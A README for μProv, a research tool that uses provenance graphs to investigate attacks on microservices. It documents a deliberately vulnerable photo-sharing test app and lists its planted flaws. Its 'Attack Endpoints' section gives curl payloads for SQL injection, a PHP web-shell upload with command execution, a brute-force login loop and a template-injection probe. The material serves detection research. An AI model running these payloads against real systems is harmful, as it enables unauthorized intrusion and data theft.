

#  μProv - Dynamic Provenance Graphs to aid in attack investigation over distributed microservice architectures


*Architecture of PicShare Application - A photosharing microservice based application intentionally injected with vulnerabilites for testing* 

Frontend: A web interface for users to interact with the application.
API Gateway: Routes requests to appropriate microservices.
User Service: Handles user authentication and management.
Photo Service: Manages photo uploads and retrieval.
User DB and Photo DB: MySQL databases for storing user and photo data.
Recommendation Service
Analytics Service
Profile Service

This setup includes the following vulnerabilities:

SQL Injection: In both user_service and photo_service, SQL queries are constructed using string interpolation.
Insecure File Upload: The photo_service doesn't properly validate uploaded files.
Sensitive Data Exposure: The user_service exposes sensitive information like passwords in API responses.
Broken Authentication: The user_service has a weak password policy.
Cross-Site Scripting (XSS): The frontend doesn't properly sanitize user input when displaying photo filenames.

```
μProv 
├── Logging Framework
└── Graph Generator
|__ ML Model
```

### Directory Structure:
```ML```: contains the ipynb file with graph generation code and ML model implementation for Tracee and μProv

```Logs```: sample log for Tracee and μProv

```workload```: Scripts to generate the workload for the application

```LoggingFramework```: Logging Module of μProv 

### Running Tracee
``` docker run --name tracee_$(hostname) --rm -d --privileged -v /etc/os-release:/host/etc/os-release:ro -v /lib/modules:/lib/modules:ro -v /usr/src:/usr/src:ro -v /tmp:/tmp -v /etc/os-release:/etc/os-release-host:ro -it aquasec/tracee:latest -e "read,write,bind,connect,accept,accept4,clone,close,creat,dup,dup2,dup3,execve,exit,exit_group,fork,open,openat,rename,renameat,unlink,unlinkat,vfork" -o json --scope container```

# Endpoint

## User Service:
### Login User: 
Request:
```
curl -X POST "http://XX.X.XX.XX:XXXX/api/users/login"  -H "Content-Type: application/json" -d '{"username":"testuser","password":"testpassword"}'
```
Response:
```
{
  "message": "Login successful", 
  "status": "success", 
  "user": {
    "email": "testuser@example.com", 
    "id": 1, 
    "username": "testuser"
  }
}
```
```
curl -X POST "http://XX.X.XX.XX:XXXX/api/users/login"      -H "Content-Type: application/json"      -d '{"username":"testuser","password":"testpasswossrd"}'
```
Response
```
{
  "message": "Invalid credentials", 
  "status": "error"
}
```
### Register User:
Request:
```
curl -X POST "http://XX.X.XX.XX:XXXX/api/users/register"      -H "Content-Type: application/json"      -d '{"username":"newuser", "password":"newpassword", "email":"newuser@example.com"}'
```
Response:
```
{
  "message": "User registered successfully", 
  "status": "success", 
  "user": {
    "email": "newuser@example.com", 
    "id": 1, 
    "username": "newuser"
  }
}
```

## Photo Service:
### Upload Photo
Request:
```
curl -X POST "http://XX.X.XX.XX:XXXX/api/photos/upload" \
     -H "Content-Type: multipart/form-data" \
     -F "file=@Docker.png" \
     -F "user_id=1"
```
Response:
```
{
  "filename": "9e210176-6c49-42c4-8e44-136642a0b275.png", 
  "message": "File uploaded successfully", 
  "status": "success"
}
```

### View Photo
Request:
```
curl -X GET "http://XX.X.XX.XX:XXXX/photos?user_id=1"
```
Response:
```
{
  "photos": [
    [
      1, 
      "docker.png", 
      1, 
      "Mon, 10 Sep 2001 00:00:00 GMT"
    ]
  ], 
  "status": "success"
}
```

### Download Photo
Request:
```
curl -X GET "http://XX.X.XX.XX:XXXX/api/photos/1762071b-9466-48ef-87ae-cd956b34c4fb.png" --output downloaded_image.png
```
## Recommendation Service
### Insert Books
Request:
```
curl -X POST "http://XX.X.XX.XX:XXXX/api/recommendations/populate_books"
```
Response:
```
{
  "message": "Added 10 books to the database", 
  "status": "success"
}
```
### Get Recommendation:
Request:
```
curl -X GET "http://XX.X.XX.XX:XXXX/api/recommendations/recommend?user_id=14"
```
Response:
```
{
  "message": "New user, no preferences set", 
  "recommendations": [], 
  "status": "success"
}
```

### Update Recommendation:
Request:
```
curl -X POST "http://XX.X.XX.XX:XXXX/api/recommendations/update_preferences" -H "Content-Type: application/json" -d '{"user_id": "14", "preferences": {"category": "books", "genre": "sci-fi"}}'
```
Response:
```
{
  "message": "Preferences updated", 
  "status": "success"
}
```

## Profile Service
### Get Profile
Request:
```
curl -v "http://XX.X.XX.XX:XXXX/profile?username=test"
```

# Attack Endpoints
### Users SQL injection
Request:
```
curl -X GET "http://XX.X.XX.XX:XXXX/api/photos?user_id=1%20OR%201%3D1"
```
### Photos SQL Injection
```
curl -X GET "http://XX.X.XX.XX:XXXX/api/photos?user_id=1%20OR%201%3D1"
```
### RCE Attack
Request:
```
curl "http://XX.X.XX.XX:XXXX/api/photos/ffb2d665-3916-47a9-99fd-3c170462a0aa.php?user_id=1&cmd=ls"
```
### Brute Force Attack
```
for i in {1..100}; do 
  curl -X POST "http://XX.X.XX.XX:XXXX/api/users/login" \
       -H "Content-Type: application/json" \
       -d '{"username": "admin", "password": "password'$i'"}'; 
done
```
```
curl -v "http://10.5.20.45:3000/profile?username=%3C%25%3D%207%20*%207%20%25%3E"
```
### PHP File Upload Attack
```
curl -X POST "http://XX.X.XX.XX:XXXX/api/photos/upload" -H "Content-Type: multipart/form-data" -F "file=@malicious.php" -F "user_id=123"
```
